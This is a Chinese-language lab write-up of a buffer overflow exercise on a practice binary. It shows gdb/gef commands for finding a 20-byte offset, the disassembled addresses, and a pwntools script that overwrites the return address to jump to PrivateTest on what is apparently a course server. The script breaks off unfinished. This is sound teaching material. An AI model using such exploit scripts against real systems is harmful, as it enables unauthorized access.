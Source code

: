 >[!Tip]
>透過輸入密碼欄位，利用Buffer overflow攻擊，將 IsPasswordVaild 的 return 指向 PrivateTest 

### 2. Buffer overflow
生成隨機長字串
```
gdb -q practice04
gef➤  gef config gef.debug True
gef➤  pattern create 50
```
![image](https://hackmd.io/_uploads/S1FtPIO70.png)
```
gef➤  run
Starting program: /home/hacker/Downloads/practice04 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc9000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter your password:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
```
![image](https://hackmd.io/_uploads/SJgIOIuQR.png)
> 利用 pattern search 
```
gef➤  pattern search aaaadaaaaaaaeaaaaaaafaaaaaaaga
```
![image](https://hackmd.io/_uploads/SJMAdUdXC.png)
> 得到偏移量 offset 20


>[!Tip]
> 接著要尋找 IsPasswordValid() 的 ret & return address 要跳至 PrivateTest() 上

### 3. disass IsPasswordValid() & PrivateTest()
```
gef➤ IsPasswordValid
gef➤ PrivateTest
```
![image](https://hackmd.io/_uploads/rkon1DOXA.png)
> 得知:
> IsPasswordValid() ret: **0x40120b**
> PrivateTest() rbp: **0x4011ac**

### 4. exploit script
```
vi exp1.py
```

```python=
from pwn import *


#proc = process(["./practice04"])
proc = remote("140.124.181.158",1321) #remote ip

input("[b4 sending]") #在發送有效負載之前暫停，並顯示 [b4 sending]，提供手動檢查的機會

count = 20 #offset
ret_gadget = 0x40120b
target = 0x4011ac #target address

proc.sendline(b"A" *count+
		ret_gadget.to_bytes(8,"little")+
		target.to_bytes(8,"little")
```